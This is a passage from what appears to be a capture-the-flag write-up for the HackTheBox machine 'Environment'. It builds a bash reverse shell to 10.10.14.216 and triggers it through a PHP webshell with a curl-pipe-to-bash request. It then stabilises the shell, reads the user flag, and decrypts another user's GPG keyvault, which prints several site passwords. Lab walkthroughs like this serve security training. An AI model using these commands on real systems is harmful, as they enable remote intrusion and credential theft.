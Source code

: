 We can get a reverse shell using the following commands:


```bash
echo "bash -i >& /dev/tcp/10.10.14.216/443 0>&1" > reverse
python3 -m http.server 80
nc -lvnp 443
```

We can make a GET request to the `png3.php` file to execute the reverse shell command:

```
GET /storage/files/png3.php?cmd=curl+10.10.14.216/reverse|bash HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6IlRmdHIrait2ZGlucXNvNENjejBzbnc9PSIsInZhbHVlIjoicTIyY2VqQ1V0aVFzbHM0aU5mWEdGZFNiV0lxNXgwMS9zT1Bab3BuSElJY204Mlp1OWhHTkhpRHFPb0pxYnNMR2pOQXVaQzRrOEFYS24zMmZ6dDgrY3E3eXNoQVYrdWJ5MHBtdmk5Wk1saDF6d3IxNXd5QTVSQW5GemhDZDBUWXgiLCJtYWMiOiJkNTY0NzY2ZDJhZTRhM2YxNmJkZTZlYzEwMTQ4ZDU2ZTczZmQxM2FhYmJhNjYxMmU1MjM1MjE4MzZkYzMwZjI2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik5wNE91YkNPS1VDOFRPMGtsOWpvYmc9PSIsInZhbHVlIjoiclFvVkw3YjQxMStmd1RiV3k0cnFzaDZLakdTRGNNTHVDMUU4MXUzbUhmMUZFREtjNWVWUGRFQVkraHJSMUdyWlA4bmJsTkg1V003cmg1ZmF3Qk5SdFpkcnZ2eDRWSlc1cVIyVm9mRk1LWWZMZDdibmh3cXRLenBBZEUvaEhvSk0iLCJtYWMiOiI3ZWRjYzc5MDBkMThiOTdjM2YyZjA1MDliN2IwYzJmNTU4ZjU5NDM1MmU3MWYxMzE2MmY0YmJjNWEzYzhkZTRjIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
```

This will give us a reverse shell as `www-data`. We can get a persistent shell by using the following commands on the reverse shell:

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Even we are `www-data`, we can see the user flag in the home directory of the user `hish`:
```bash
cat /home/hish/user.txt
```

```
user flag value
```

## Root Exploitation

We find there is a GPG file in the home directory of the user `hish`. So, we try to decrypt it:

```bash
cp -r /home/hish/.gnupg /tmp/.gnupg
cp /home/hish/keyvault.gpg /tmp/keyvault.gpg

chmod 700 /tmp/.gnupg
chmod 600 /tmp/.gnupg/*

gpg --homedir /tmp/.gnupg --decrypt /tmp/keyvault.gpg > /tmp/decrypted.txt
cat /tmp/decrypted.txt
```
```
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
